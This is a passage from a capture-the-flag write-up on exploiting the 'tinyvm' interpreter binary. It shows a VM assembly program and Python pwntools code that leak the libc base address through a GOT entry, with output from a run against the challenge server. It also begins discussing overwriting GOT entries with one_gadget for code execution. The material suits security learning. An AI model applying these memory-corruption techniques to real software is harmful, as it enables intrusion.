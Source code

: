 ```c
pwndbg> dist 0x7f1fd9189080 0x7f1fd9161000
0x7f1fd9189080->0x7f1fd9161000 is -0x28080 bytes (-0x5010 words)
```

We have everything to craft a vm program which will store libc base address in two 32bit registers and print it to us for verification, so we can receive it in python:

```asm
# move sp to start of libc
add esp, 0x3e03ff0
mov ebp, esp

add esp, 0x219050 # GOT calloc addr
pop r08
sub r08, 0x28080  # offset to libc base
pop r09
# libc base in r09 << 32 | r08

prn r08
prn r09
```

```py
def de(v):
	return unhex(tohex(int(v.decode())))

lo = de(rl())
hi = de(rl())
libc_leak = u64((hi+lo)[::-1])
ls(f"{libc_leak:#x}")
```

Running the code on the local and remote env gives the following results, which confirms that we have proper address:

```c
➜  /media/sf_D_DRIVE/rwctf/tinyvm git:(master) ✗ ./solve.py REMOTE
[*] '/media/sf_D_DRIVE/rwctf/tinyvm/bin/tvmi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 198.11.180.84 on port 6666: Done
[+] 0x7f800e8f2000
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```

### Crafting the exploit v1

Libc 2.35 doesn't have `__free_hook` or `__malloc_hooke`, so we cannot abuse them anymore, and we need to find other low-hanging fruits. Since we've been playing around with GOT, maybe we can use it to gain control over code execution. After some experimentation, it turned out that the `printf` function (used by the `prn` vm opcode) uses two GOT entries - `__strchrnul_sse2` and `__strncpy_avx2`, so I tried writing the address of one_gadget into them, but neither gadget worked. Each time the gadget conditions were not met and the binary crashed, so we need to pwn it as usual...
